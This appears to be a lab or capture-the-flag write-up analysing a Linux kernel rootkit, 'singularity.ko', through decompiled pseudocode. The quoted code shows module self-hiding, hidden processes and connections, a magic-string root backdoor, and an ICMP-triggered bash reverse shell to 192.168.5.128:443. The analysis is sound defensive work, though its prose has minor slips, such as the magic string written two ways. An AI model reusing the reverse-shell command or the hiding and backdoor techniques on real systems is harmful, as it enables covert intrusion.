



import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Scenario

Our primary web server, critical to our daily operations, has been compromised. Over the past few weeks, our network monitoring tools have been flagging unusual outbound communications to an unknown command-and-control server on an unconventional port. The Digital Forensics and Incident Response (DFIR) team was immediately activated to investigate the anomaly. Initial analysis of the running processes and network connections on the live system revealed nothing out of the ordinary, suggesting a sophisticated attacker attempting to maintain stealth. Suspecting a kernel-level threat, the DFIR team captured a full memory dump of the compromised server for offline analysis. During the memory analysis, the team uncovered traces of a sophisticated Linux rootkit. This rootkit was actively hiding its presence and maintaining persistent access to our server. The DFIR team has successfully recovered the malicious kernel modules from the memory image. As a malware analyst, you have been provided with the recovered malicious modules. Your objective is to perform a thorough analysis of the rootkit and determine its capabilities.

## Analysis Process

According to the scenario, we will conduct a kernel-level threat analysis. We receive a file named `singularity.ko`, so what is this file?

```shell
$ file singularity.ko

singularity.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=5f22da56e22ce5aebc0a356347bac40441903c52, with debug_info, not stripped
```

<Callout
  title="What is .ko files?"
  variant="note"
>
A `.ko` file is a **Kernel Object** – a module file of the Linux kernel. It can be loaded into the kernel while the machine is running to add functionality or drivers.

</Callout>

### Task 1: What is the SHA256 hash of the sample?

We can easily find it using the sha256sum command as follows:

```shell
$ sha256sum singularity.ko
0b8ecdaccf492000f3143fa209481eb9db8c0a29da2b79ff5b7f6e84bb3ac7c8  singularity.ko
```

### Task 2: What is the name of the primary initialization function called when the module is loaded?

The `init` function is a function called by the kernel when you load a `.ko` module using the `insmod` or `modprobe` commands. In the functions tab, you can easily see that the init function here is `singularity_init()`.

<div class="mx-auto"></div>

Alternative name of primary initialization function is `init_module`.

### Task 3: How many distinct feature-initialization functions are called within above mentioned function?

Looking at the pseudocode:

```c
int __cdecl singularity_init()
{
  int v0; // ebx
  int v1; // ebx
  int v2; // ebx
  int v3; // ebx
  int v4; // ebx
  int v5; // ebx
  int v6; // ebx
  int v7; // ebx
  int v8; // ebx
  int v9; // ebx
  int v10; // ebx
  int v11; // ebx
  int v12; // ebx
  int v13; // ebx

  _fentry__();
  v0 = reset_tainted_init();
  v1 = hiding_open_init() | v0;
  v2 = become_root_init() | v1;
  v3 = hiding_directory_init() | v2;
  v4 = hiding_stat_init() | v3;
  v5 = hiding_tcp_init() | v4;
  v6 = hooking_insmod_init() | v5;
  v7 = clear_taint_dmesg_init() | v6;
  v8 = hooks_write_init() | v7;
  v9 = hiding_chdir_init() | v8;
  v10 = hiding_readlink_init() | v9;
  v11 = bpf_hook_init() | v10;
  v12 = hiding_icmp_init() | v11;
  v13 = trace_pid_init() | v12;
  module_hide_current();
  return v13;
}
```

We can easily find the answer is `15`.

### Task 4: The reset_tainted_init function creates a kernel thread for anti-forensics. What is the hardcoded name of this thread?

Looking at the pseudocode of `reset_tainted_init` function:

```c
int __cdecl reset_tainted_init()
{
  kprobe_opcode_t *addr; // rbx
  task_struct *v1; // rax
  task_struct *v2; // rbx
  int pid; // edi

  if ( (int)register_kprobe(&probe_lookup) < 0 || (addr = probe_lookup.addr, unregister_kprobe(&probe_lookup), !addr) )
  {
    taint_mask_ptr = 0LL;
    goto LABEL_7;
  }
  taint_mask_ptr = (unsigned __int64 *)((__int64 (__fastcall *)(const char *))addr)("tainted_mask");
  if ( !taint_mask_ptr )
  {
LABEL_7:
    LODWORD(v1) = -14;
    return (int)v1;
  }
  v1 = (task_struct *)kthread_create_on_node(zt_thread, 0LL, 0xFFFFFFFFLL, "zer0t");
  v2 = v1;
  if ( (unsigned __int64)v1 > 0xFFFFFFFFFFFFF000LL )
  {
    cleaner_thread = v1;
  }
  else
  {
    wake_up_process(v1);
    pid = v2->pid;
    cleaner_thread = v2;
    add_hidden_pid(pid);
    LODWORD(v1) = 0;
  }
  return (int)v1;
}
```

It creates a thread named `zer0t` to run the `zt_thread()` function.

```c
v1 = kthread_create_on_node(zt_thread, 0LL, 0xFFFFFFFFLL, "zer0t");
```

If v1 is greater than `0xFFFFFFFFLL` (`ERR_PTR` address range), call `wake_up_process()` to start the thread. And call `add_hidden_pid()` to hide that process.

```c
if ( (unsigned __int64)v1 > 0xFFFFFFFFFFFFF000LL )
{
  cleaner_thread = v1;
}
else
{
  wake_up_process(v1);
  pid = v2->pid;
  cleaner_thread = v2;
  add_hidden_pid(pid);
  return 0;
}
return (int)v1;
```

You can read more about the `kthread_create_on_node()` function [here](https://www.linuxtv.org/downloads/v4l-dvb-internals/device-drivers/API-kthread-create-on-node.html).

### Task 5: The add_hidden_pid function has a hardcoded limit. What is the maximum number of PIDs the rootkit can hide?

Looking at the pseudocode of `add_hidden_pid()` function:

```c
void __fastcall add_hidden_pid(int pid)
{
  int v1; // ecx
  __int64 v2; // rsi
  int *v3; // rax

  v1 = hidden_count;
  v2 = hidden_count;
  if ( hidden_count <= 0 )
  {
LABEL_7:
    hidden_pids[v2] = pid;
    hidden_count = v1 + 1;
  }
  else
  {
    v2 = hidden_count;
    v3 = hidden_pids;
    while ( *v3 != pid )
    {
      if ( ++v3 == &hidden_pids[hidden_count] )
      {
        if ( hidden_count == 32 )
          return;
        goto LABEL_7;
      }
    }
  }
}
```

This function adds a PID to `hidden_pids` if it doesn't exist, but it doesn't allow duplicates and the number of PIDs cannot exceed `32`.

### Task 6: What is the name of the function called last within init_module to hide the rootkit itself?

Looking at the pseudocode of `singularity_init()` function:

```c
int __cdecl singularity_init()
{
  int v0; // ebx
  int v1; // ebx
  int v2; // ebx
  int v3; // ebx
  int v4; // ebx
  int v5; // ebx
  int v6; // ebx
  int v7; // ebx
  int v8; // ebx
  int v9; // ebx
  int v10; // ebx
  int v11; // ebx
  int v12; // ebx
  int v13; // ebx

  _fentry__();
  v0 = reset_tainted_init();
  v1 = hiding_open_init() | v0;
  v2 = become_root_init() | v1;
  v3 = hiding_directory_init() | v2;
  v4 = hiding_stat_init() | v3;
  v5 = hiding_tcp_init() | v4;
  v6 = hooking_insmod_init() | v5;
  v7 = clear_taint_dmesg_init() | v6;
  v8 = hooks_write_init() | v7;
  v9 = hiding_chdir_init() | v8;
  v10 = hiding_readlink_init() | v9;
  v11 = bpf_hook_init() | v10;
  v12 = hiding_icmp_init() | v11;
  v13 = trace_pid_init() | v12;
  module_hide_current();
  return v13;
}
```

`module_hide_current()` is the function called last within `init_module` to hide the rootkit itself.

```c
void __cdecl module_hide_current()
{
  kobject *holders_dir; // rdi
  list_head *next; // rdx
  list_head *prev; // rax
  mod_kallsyms *kallsyms; // rax

  if ( !hider_state.hidden )
  {
    hider_state.saved_list_pos = _this_module.list.prev;
    hider_state.saved_parent = _this_module.mkobj.kobj.parent;
    if ( hider_state.saved_parent )
    {
      kobject_del(&_this_module.mkobj);
      holders_dir = _this_module.holders_dir;
      _this_module.mkobj.kobj.parent = 0LL;
      _this_module.mkobj.kobj.kset = 0LL;
      if ( holders_dir )
      {
        kobject_put();
        _this_module.holders_dir = 0LL;
      }
    }
    if ( _this_module.list.next != &_this_module.list )
    {
      if ( (unsigned __int8)_list_del_entry_valid_or_report(&_this_module.list) )
      {
        next = _this_module.list.next;
        prev = _this_module.list.prev;
        next->prev = prev;
        prev->next = next;
      }
      _this_module.list.next = &_this_module.list;
      _this_module.list.prev = &_this_module.list;
      _this_module.list.next = (list_head *)574043927;
      _this_module.list.prev = (list_head *)926365489;
    }
    kallsyms = _this_module.kallsyms;
    _this_module.state = module_state::MODULE_STATE_UNFORMED;
    _this_module.sect_attrs = 0LL;
    if ( kallsyms )
      kallsyms->num_symtab = 0;
    hider_state.hidden = 1;
  }
}
```

Specifically, it removes itself from the global module list (where `lsmod` and `/proc/modules` is based), so it looks like "this module doesn't exist". You can read more about this stealth technique [here](https://xcellerator.github.io/posts/linux_rootkits_05/).

### Task 7: The TCP port hiding module is initialized. What is the hardcoded port number it is configured to hide (decimal)?

In the functions tab, filter with TCP. You can find the function `hooked_tcp4_seq_show()`.

```c
__int64 __fastcall hooked_tcp4_seq_show(seq_file *seq, _DWORD *v)
{
  int v2; // r12d
  __int16 v3; // r14
  __int16 v4; // r13
  int v5; // r12d

  if ( v == (_DWORD *)((char *)&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 1) )
    return orig_tcp4_seq_show(seq, (char *)&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 1);
  v2 = v[198];
  v3 = *((_WORD *)v + 6);
  v4 = *((_WORD *)v + 399);
  if ( v2 == (unsigned int)in_aton("192.168.5.128") )
    return 0LL;
  v5 = *v;
  if ( v5 == (unsigned int)in_aton("192.168.5.128") || v4 == -24250 || v3 == -24250 )
    return 0LL;
  else
    return orig_tcp4_seq_show(seq, v);
}
```

This function is a hook of `tcp4_seq_show()` – a kernel function used to print each line of the TCP IPv4 connection.

```c
if (v2 == in_aton("192.168.5.128")) return 0;
if (v5 == in_aton("192.168.5.128") || v4 == -24250 || v3 == -24250) return 0;
```

The main functions are as follows:

- It hides all connections with IP = `192.168.5.128`
- It also hides any connections with port = `-24250`, as the corresponding 16-bit `0xA146`.

Since this is an ELF file, you need to change the position and convert it to decimal. So the final correct answer is `18081`.

### Task 8: What is the hardcoded "magic word" string, checked for by the privilege escalation module?

Filtering by the string **"MAGIC"**, we can find the string **"MAGIC=baby elephant"**. It is used by the `hook_getuid()` function as follows:

```c
__int64 __fastcall hook_getuid(const pt_regs *regs)
{
  unsigned __int64 v1; // rbp
  __int64 v2; // r12
  __int64 v3; // rax
  const char *v4; // r13
  int v5; // eax
  char *v6; // rdx
  __int64 v7; // rax
  _QWORD *v8; // rax

  v1 = __readgsqword((unsigned int)&const_pcpu_hot);
  if ( !strcmp((const char *)(v1 + 2976), "bash") )
  {
    v2 = *(_QWORD *)(v1 + 2304);
    if ( v2 )
    {
      if ( *(_QWORD *)(v2 + 384) )
      {
        if ( *(_QWORD *)(v2 + 392) )
        {
          v3 = _kmalloc_cache_noprof(kmalloc_caches[12], 2080LL, 4096LL);
          v4 = (const char *)v3;
          if ( v3 )
          {
            v5 = access_process_vm(v1, *(_QWORD *)(v2 + 384), v3, 4095LL, 0LL);
            if ( v5 > 0 )
            {
              if ( v5 != 1 )
              {
                v6 = (char *)v4;
                v7 = (__int64)&v4[v5 - 2 + 1];
                do
                {
                  if ( !*v6 )
                    *v6 = 32;
                  ++v6;
                }
                while ( v6 != (char *)v7 );
              }
              if ( strstr(v4, "MAGIC=babyelephant") )
              {
                v8 = (_QWORD *)prepare_creds();
                if ( v8 )
                {
                  v8[1] = 0LL;
                  v8[2] = 0LL;
                  v8[3] = 0LL;
                  v8[4] = 0LL;
                  commit_creds(v8);
                }
              }
            }
            kfree(v4);
          }
        }
      }
    }
  }
  return orig_getuid(regs);
}
```

This `hook_getuid()` section is a privilege escalation backdoor hidden within the `syscall getuid()` hook. Each time bash calls `getuid()`, the module secretly checks the process. If it finds the secret string `MAGIC=babyelephant`, it elevates the process to root (uid/gid = 0). It then returns the normal `getuid()` result to make it harder to detect.

```c
if ( strstr(v4, "MAGIC=babyelephant") )
              {
                v8 = (_QWORD *)prepare_creds();
                if ( v8 )
                {
                  v8[1] = 0LL;
                  v8[2] = 0LL;
                  v8[3] = 0LL;
                  v8[4] = 0LL;
                  commit_creds(v8);
                }
              }
```

<Callout title="What is creds?" variant="note">
  `creds` are a set of permission information for a process. Structure of `creds` is as follows:

```c
struct cred {
  /* redacted */

  kuid_t      uid;    /* real UID of the task */
  kgid_t      gid;    /* real GID of the task */
  kuid_t      suid;   /* saved UID of the task */
  kgid_t      sgid;   /* saved GID of the task */
  kuid_t      euid;   /* effective UID of the task */
  kgid_t      egid;   /* effective GID of the task */
  kuid_t      fsuid;  /* UID for VFS ops */
  kgid_t      fdgid;  /* GID for VFS ops */

  /* redacted */
};
```

`prepare_creds()` creates a new creds file for safe editing. `commit_creds(new)` attaches the new creds to the current process.

</Callout>

You can learn more about this technique [here](https://xcellerator.github.io/posts/linux_rootkits_03/).

### Task 9: How many hooks, in total, does the become_root_init function install to enable privilege escalation?

In the `singularity_init()` function, we can see that it calls the `become_root_init()` function:

```c
int __cdecl become_root_init()
{
  return fh_install_hooks(hooks, 10uLL);
}
```

It calls `fh_install_hooks(hooks, 0xAuLL)`, where the number is 10 hooks.

```c
__int64 __fastcall fh_install_hooks(ftrace_hook *hooks, size_t count)
{
  ftrace_hook *v2; // rbp
  __int64 v3; // r12
  unsigned int v4; // ebx
  ftrace_hook *v5; // rbp
  ftrace_hook *v6; // rax

  if ( !count )
    return 0LL;
  v2 = hooks;
  v3 = 0LL;
  while ( 1 )
  {
    v4 = fh_resolve_hook_address(v2);
    if ( v4 )
      break;
    v4 = fh_install_hook_0(v2);
    if ( v4 )
      break;
    ++v3;
    ++v2;
    if ( count == v3 )
      return 0LL;
  }
  if ( v3 )
  {
    v5 = &hooks[v3 - 1];
    do
    {
      fh_remove_hook(v5);
      v6 = v5--;
    }
    while ( v6 != hooks );
  }
  return v4;
}
```

It performs a loop to install each hook, with each hook consisting of two steps:

- `fh_resolve_hook_address()`: finds the actual address of the kernel function to hook.
- `fh_install_hook_0()`: installs the hook.

If an error occurs, call `fh_remove_hook()` to remove the installed hooks.

### Task 10: What is the hardcoded IPv4 address of the C2 server?

Look in the Strings tab, and you can see an IP address that's being used.

<div class="mx-auto"></div>

It is used in two functions: `spawn_revshell()` and `hook_icmp_rcv()`.

### Task 11: What is the hardcoded port number the C2 server listens on?

Looking at the pseudocode of `spawn_revshell()` function:

```c
void __fastcall spawn_revshell(work_struct *work)
{
  __int64 v2; // rdx
  __int64 v3; // rax
  int v4; // ebp
  int v5; // eax
  const char *v6; // rsi
  __int64 v7; // rax
  __int64 v8; // rdi
  __int64 v9; // rdx
  __int64 v10; // rbx
  __int64 i; // r14
  int v12; // r12d
  char *argv[5]; // [rsp+0h] [rbp-360h] BYREF
  char cmd[768]; // [rsp+28h] [rbp-338h] BYREF
  unsigned __int64 v15; // [rsp+328h] [rbp-38h]

  v15 = __readgsqword(0x28u);
  argv[0] = "/usr/bin/setsid";
  argv[1] = "/bin/bash";
  argv[2] = "-c";
  argv[4] = 0LL;
  memset(cmd, 0, sizeof(cmd));
  snprintf(
    cmd,
    0x300uLL,
    "bash -c 'PID=$$; kill -59 $PID; exec -a \"%s\" /bin/bash &>/dev/tcp/%s/%s 0>&1' &",
    "firefox-updater",
    "192.168.5.128",
    "443");
  argv[3] = cmd;
  _rcu_read_lock();
  v3 = init_task[278];
  if ( (_QWORD *)v3 == &init_task[278] )
  {
    v4 = 0;
  }
  else
  {
    v2 = v3 - 2224;
    v4 = 0;
    do
    {
      v5 = *(_DWORD *)(v3 + 208);
      if ( v4 < v5 )
        v4 = v5;
      v3 = *(_QWORD *)(v2 + 2224);
      v2 = v3 - 2224;
    }
    while ( (_QWORD *)v3 != &init_task[278] );
  }
  _rcu_read_unlock(cmd, 768LL, v2);
  v6 = (const char *)argv;
  v7 = call_usermodehelper_setup(argv[0], argv, envp_0, 3264LL, 0LL, 0LL, 0LL);
  if ( v7 )
  {
    v6 = (_BYTE *)(&_UNIQUE_ID___addressable_trace_pid_cleanup878 + 2);
    call_usermodehelper_exec(v7, 2LL);
  }
  v8 = 1500LL;
  msleep(1500LL);
  _rcu_read_lock();
  v10 = init_task[278];
  for ( i = v10 - 2224; (_QWORD *)v10 != &init_task[278]; i = v10 - 2224 )
  {
    v12 = *(_DWORD *)(v10 + 208);
    if ( v12 > v4 )
    {
      if ( *(_QWORD *)(v10 + 80) )
      {
        v6 = "firefox-updater";
        if ( strstr((const char *)(v10 + 752), "firefox-updater")
          || (v6 = "setsid", v8 = v10 + 752, strstr((const char *)(v10 + 752), "setsid")) )
        {
          add_hidden_pid(v12);
          v8 = *(unsigned int *)(v10 + 212);
          add_hidden_pid(v8);
        }
      }
    }
    v10 = *(_QWORD *)(i + 2224);
  }
  _rcu_read_unlock(v8, v6, v9);
  kfree(work);
}
```

The function creates a reverse shell to `192.168.5.128:443`, disguises the process name as **firefox-updater**, and attempts to detach itself from the terminal using `setsid` and running in the background.

### Task 12: What network protocol is hooked to listen for the backdoor trigger?

By examining the reference graph of the `spawn_revshell()` function, we see that it is called by the `hook_icmp_rcv()` function.

<div class="mx-auto"></div>

Looking at the pseudocode of `hook_icmp_rcv()` function:

```c
__int64 __fastcall hook_icmp_rcv(sk_buff *skb)
{
  unsigned __int8 *head; // rdx
  __int64 network_header; // rax
  bool v3; // zf
  unsigned __int8 *v4; // rax
  unsigned __int8 *v5; // rbp
  unsigned __int8 *v7; // r12
  _QWORD *v8; // rax
  __int64 v9; // rsi
  u32 trigger_ip; // [rsp+4h] [rbp-24h] BYREF
  unsigned __int64 v11; // [rsp+8h] [rbp-20h]

  v11 = __readgsqword(0x28u);
  trigger_ip = 0;
  if ( skb )
  {
    head = skb->head;
    network_header = skb->network_header;
    v3 = &head[network_header] == 0LL;
    v4 = &head[network_header];
    v5 = v4;
    if ( !v3 && v4[9] == 1 )
    {
      v7 = &head[skb->transport_header];
      if ( v7 )
      {
        if ( (unsigned int)in4_pton("192.168.5.128", 0xFFFFFFFFLL, &trigger_ip, 0xFFFFFFFFLL, 0LL) )
        {
          if ( *((_DWORD *)v5 + 3) == trigger_ip && *v7 == 8 && *((_WORD *)v7 + 3) == 0xCF07 )
          {
            v8 = (_QWORD *)_kmalloc_cache_noprof(kmalloc_caches[5], 2080LL, 32LL);
            if ( v8 )
            {
              v8[3] = spawn_revshell;
              v9 = system_wq;
              *v8 = 0xFFFFFFFE00000LL;
              v8[1] = v8 + 1;
              v8[2] = v8 + 1;
              queue_work_on(0x2000LL, v9);
            }
          }
        }
      }
    }
  }
  return ((__int64 (__fastcall *)(sk_buff *))orig_icmp_rcv)(skb);
}
```

This is a backdoor trigger via ICMP: when the kernel receives a ping request with source IP = `192.168.5.128` and sequence = `0xCF07`, it will schedule `spawn_revshell` to activate the reverse shell, and then continue processing ICMP as usual to avoid suspicion.

### Task 13: What is the "magic" sequence number that triggers the reverse shell (decimal)?

Magic sequence number that triggers the reverse shell is `0xCF07`, you need to convert it to decimal. So the final correct answer is `1999`.

### Task 14: When the trigger conditions are met, what is the name of the function queued to execute the reverse shell?

As we have analyzed in the previous sentences, the correct answer is `spawn_revshell()`.

### Task 15: The spawn_revshell function launches a process. What is the hardcoded process name it uses for the reverse shell?

As we have analyzed in the previous sentences, the correct answer is `firefox-updater`.

## Conclusion

The **Singularity rootkit** is a highly sophisticated Linux kernel-level threat designed for stealth and persistence. Through our analysis, we uncovered:

- **15 distinct feature-initialization functions** working in concert to establish a complete compromise
- **Anti-forensics mechanisms** including kernel thread manipulation and taint flag clearing
- **Privilege escalation backdoor** triggered by the magic string `MAGIC=babyelephant` in bash processes
- **Covert C2 communication** via ICMP ping packets with a magic sequence number (`0xCF07`)
- **Comprehensive process and network hiding** capabilities to evade detection

The rootkit demonstrates advanced kernel exploitation techniques, including ftrace hooking, kernel module self-hiding, and sophisticated process memory inspection. This analysis highlights the critical importance of kernel-level security monitoring and the severe risks posed by kernel-mode malware in modern computing environments.
